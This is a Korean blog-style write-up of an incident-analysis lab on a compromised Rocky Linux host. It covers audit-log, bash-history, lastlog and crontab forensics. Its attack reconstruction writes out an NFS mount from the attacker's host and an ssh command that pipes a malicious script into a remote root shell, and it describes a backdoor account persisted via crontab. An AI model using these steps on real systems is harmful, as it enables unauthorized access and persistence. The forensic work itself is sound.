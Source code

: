 ```yaml
---
title: "침해사고분석 실습 7"
date: 2025-01-04
categories: [정보보안, 침해사고분석]
tags: [IT, Security]
---
```


## 이상한 작업 수행된 리눅스 분석

### 1. 칼리 리눅스를 통한 침투 분석

![](assets/img/정보보안/실습/A_7-1.jpg)

#### 로그 분석

1) 시스템 및 히스토리 로그 확인
    - `/var/log/audit/` 디렉터리에서 공격자의 IP(`10.10.10.10`) 관련 로그 분석  
        ```bash
        cd /var/log/audit/
        cat audit.log | grep 10.10.10.10
        ```
    - 사용자 히스토리 (`.bash_history`) 확인  
        ```bash
        cd ~
        ls -al
        vi .bash_history
        ```
        ![](assets/img/정보보안/실습/A_7-2.jpg)  

#### 주요 발견 사항

- `/etc/fstab` 설정 변경 가능성 확인 필요  
- `/mnt/kali10/one.sh` 파일 존재 확인  
- `/tmp/.info.txt` 파일 발견 (`tmp` 디렉터리를 이용해 흔적을 남기지 않으려는 시도)  
- `mount` 명령어로 공유된 디렉터리 목록 확인  

#### 침해 시나리오 분석

1. **공격자가 Kali Linux(10.10.10.10)에서 록키 리눅스 침투**
2. **Kali Linux와 록키 리눅스 간 공유 폴더 마운트**
    ```bash
    mount -t nfs 10.10.10.10:/mnt/kali10 /mnt/kali10
    ```
3. **Kali Linux에서 록키 리눅스의 `one.sh` 실행**
    ```bash
    ssh root@10.10.10.18 'bash -s' < /mnt/kali10/one.sh
    ```

### 2. 악성 스크립트 기반의 계정 탈취 분석

#### 분석 대상
- `/tmp/one.sh` 및 관련 악성 파일
- `ftps` 계정 생성 및 활용 여부

#### 확인해야할 사항

1) 악성 파일 다운로드 방법 분석
    - `.bash_history`에서 `scp` 명령어를 통해 악성 파일 다운로드한 흔적 확인  
        ```bash
        cd ~
        vi .bash_history
        ```
2) 악성 파일 존재 위치 확인
    - `/tmp/one.sh` 파일 존재
3) FTPS 계정 생성 방식 분석
    - `one.sh` 실행 후 `/shells_attack.sh` 파일 생성 및 실행됨 → 계정 자동 생성  
        ![](assets/img/정보보안/실습/A_7-3.jpg)
4) FTPS 계정 로그인 기록 확인
    - `lastlog` 명령어로 `ftps` 계정의 로그인 이력 조회  
        ```bash
        lastlog -u ftps
        ```
        ![](assets/img/정보보안/실습/A_7-4.jpg)
5) FTPS 계정의 행위 분석
    - `/var/log/audit/audit.log`에서 계정 생성 내역 조회  
        ```bash
        cat /var/log/audit/audit.log | grep adduser
        ```
    - 계정 생성 시간 확인 (`stat` 명령어 사용)  
        ```bash
        stat /home/ftps
        ```
        ![](assets/img/정보보안/실습/A_7-5.jpg)
6) 악성 파일 및 crontab 분석
    - `/home/ftps/.bash_history` 확인  
    - `crontab`을 통해 주기적으로 실행되는 악성 스크립트 확인  
        ```bash
        crontab -u ftps -l
        ```
7) 악성 파일의 역할
    - FTPS 계정을 생성하고 지속적으로 해당 계정으로 접속하는 백도어 역할 수행 
8) `one.sh`의 마지막 `ping` 명령어 목적
    - 악성 스크립트가 정상적으로 실행되었는지 확인하기 위함  
        ![](assets/img/정보보안/실습/A_7-6.jpg)